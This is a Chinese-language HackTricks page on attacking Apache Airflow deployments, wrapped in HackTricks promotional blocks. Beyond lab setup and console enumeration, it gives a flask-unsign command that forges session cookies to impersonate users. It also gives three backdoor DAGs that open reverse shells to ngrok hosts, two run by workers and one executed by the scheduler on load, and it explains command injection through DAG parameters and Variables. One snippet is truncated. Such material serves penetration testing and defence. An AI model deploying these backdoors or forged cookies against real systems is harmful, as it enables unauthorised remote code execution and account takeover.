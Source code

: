 # Apache Airflow 安全性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## 基本信息

[**Apache Airflow**](https://airflow.apache.org) 用于 **调度和编排数据管道或工作流**。数据管道编排指的是序列化、协调、调度和管理来自不同来源的复杂 **数据管道**。这些数据管道提供的数据集可供商业智能应用程序和数据科学、支持大数据应用的机器学习模型使用。

基本上，Apache Airflow 允许您在某些事情（事件、cron）**发生时** **安排代码的执行**。

## 本地实验室

### Docker-Compose

您可以使用来自 [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) 的 **docker-compose 配置文件** 来启动一个完整的 apache airflow docker 环境。（如果您使用的是 MacOS，请确保为 docker VM 分配至少 6GB 的 RAM）。

### Minikube

运行 **apache airflow** 的一种简单方法是**使用 minikube 运行它**：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow 配置

Airflow 可能会在其配置中存储**敏感信息**，或者您可能会发现配置较弱：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

在开始攻击 Airflow 之前，您应该了解**权限如何工作**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻击

### Web 控制台枚举

如果您有**访问 web 控制台**的权限，您可能能够访问以下部分或全部信息：

* **变量**（自定义敏感信息可能存储在此处）
* **连接**（自定义敏感信息可能存储在此处）
* 在 `http://<airflow>/connection/list/` 访问它们
* [**配置**](./#airflow-configuration)（敏感信息如 **`secret_key`** 和密码可能存储在此处）
* 列出**用户和角色**
* **每个 DAG 的代码**（可能包含有趣的信息）

### 检索变量值

变量可以存储在 Airflow 中，以便 **DAGs** 可以**访问**它们的值。这类似于其他平台的秘密。如果您有**足够的权限**，您可以在 GUI 中通过 `http://<airflow>/variable/list/` 访问它们。\
Airflow 默认会在 GUI 中显示变量的值，但根据[**这篇文章**](https://marclamberti.com/blog/variables-with-apache-airflow/)，可以设置一个**变量列表**，其**值**将在**GUI**中显示为**星号**。

![](<../../.gitbook/assets/image (79).png>)

然而，这些**值**仍然可以通过**CLI**（您需要有数据库访问权限）、**任意 DAG** 执行、访问变量端点的 **API**（需要激活 API），甚至是**GUI 本身**来**检索**！\
****要从 GUI 访问这些值，只需**选择您想访问的变量**，然后**点击 Actions -> Export**。\
另一种方式是对**隐藏值**进行**暴力破解**，使用**搜索过滤**直到获取它：

![](<../../.gitbook/assets/image (30).png>)

### 权限提升

如果**`expose_config`** 配置设置为 **True**，则从**用户角色**及以上的用户可以在网页中**读取**配置。在此配置中，**`secret_key`** 会显示，这意味着任何拥有此有效密钥的用户都可以**创建自己的签名 cookie 来冒充任何其他用户账户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG 后门（Airflow 工作节点中的 RCE）

如果你拥有**写入权限**到**DAGs 存储位置**，你可以简单地**创建一个**将会给你发送**反向 shell**的 DAG。\
注意，这个反向 shell 将会在**airflow 工作容器**内执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG 后门 (Airflow 调度器中的 RCE)

如果您设置某些内容在**代码根目录**中**执行**，在本文写作时，将在将其放入 DAG 文件夹后几秒钟内由调度器**执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG 创建

如果您设法**在 DAG 集群内部的机器上实施渗透**，您可以在 `dags/` 文件夹中创建新的**DAG 脚本**，它们将会在 DAG 集群内的**其他机器中复制**。

### DAG 代码注入

当您通过 GUI 执行 DAG 时，您可以向它**传递参数**。\
因此，如果 DAG 编码不当，可能会**容易受到命令注入的攻击**。\
这就是此 CVE 中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

您需要知道的所有信息，以**开始寻找 DAG 中的命令注入**，就是**参数**是通过代码**`dag_run.conf.get("param_name")`**来**访问**的。

此外，相同的漏洞可能发生在**变量**上（注意，如果有足够的权限，您可以在 GUI 中**控制变量的值**）。变量是通过以下方式**访问**：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们例如在bash命令中使用，你可以执行命令注入。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或者**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
